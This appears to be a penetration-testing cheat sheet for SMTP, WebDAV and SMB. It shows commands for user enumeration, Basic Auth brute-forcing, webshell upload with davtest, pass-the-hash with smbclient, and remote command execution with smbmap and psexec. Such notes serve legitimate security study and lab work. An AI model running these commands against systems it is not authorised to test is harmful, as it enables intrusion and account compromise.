 ## <mark style="color:yellow;">25 - SMTP</mark>

* Search exploit for vulnerable version
* Retrieve the hostname of the server (domain name)
  * ```sh
    francesco@debian:~$ nc <ip> <port>
    220 openmailbox.xyz ESMTP Postfix: Welcome.    # Here (in the banner)
    helo whatyouwant                               # helo command
    250 openmailbox.xyz                            # Here
    ```
* Username Bruteforce
  *   Automation:

      ```sh
      smtp-user-enum -U <wordlist> -t <ip>
      ```
  *   Manual

      ```sh
      francesco@debian:~$ nc <ip> <port>
      220 openmailbox.xyz ESMTP Postfix: Welcome.
      VRFY  root
      252 2.0.0 root                                 # Output if user exists
      VRFY  idontexists
      550 5.1.1 <idontexists>: Recipient address rejected: User unknown in local recipient table
      ```
  * Note: there are other command you can use such as `RCPT TO`

## <mark style="color:yellow;">80 - WebDav</mark>

* With WebDav you can upload file. Normally it's necessary credentials
  * Bruteforce (it's simple HTTP Basic Authentication)
* You can automate the upload and execution of file

```sh
# 1 tool - davtest
# Check what file type is executed
davtest -auth <user>:<password> -url http://<ip>/<webdav_path>
# Upload file
davtest --url http://<ip>/<webdav_path> -auth <user>:<password> -uploadfile webshell.asp -uploadloc /destination/webshell.asp

# 2 tool - cadaver
cadaver http://<ip>/<webdav_path> # then login.
# Use PUT command to upload file
```

## <mark style="color:yellow;">139/445 - SMB | Samba</mark>

```sh
# List shared folders
smbclient --no-pass -L //<ip> # Null user
smbclient -U 'admin%pwd' -L //<ip> # (1) With credential
smbclient -U 'admin' -L //<ip> # (2) With credential [pwd omitted, then type it]
smbclient -U 'admin' --pw-nt-hash <hash> -L //<ip> # With hash (pass the hash)

# Obtain information (you can also enumerate users)
enum4linux -a [-u "<username>" -p "<passwd>"] <ip>

# Command execution (authenticated)
smbmap -H <ip> -u <user> -p <pass> -x 'ipconfig'
python3 psexec.py Administrator@ip # Even exploit/windows/smb/psexec metasploit module
```
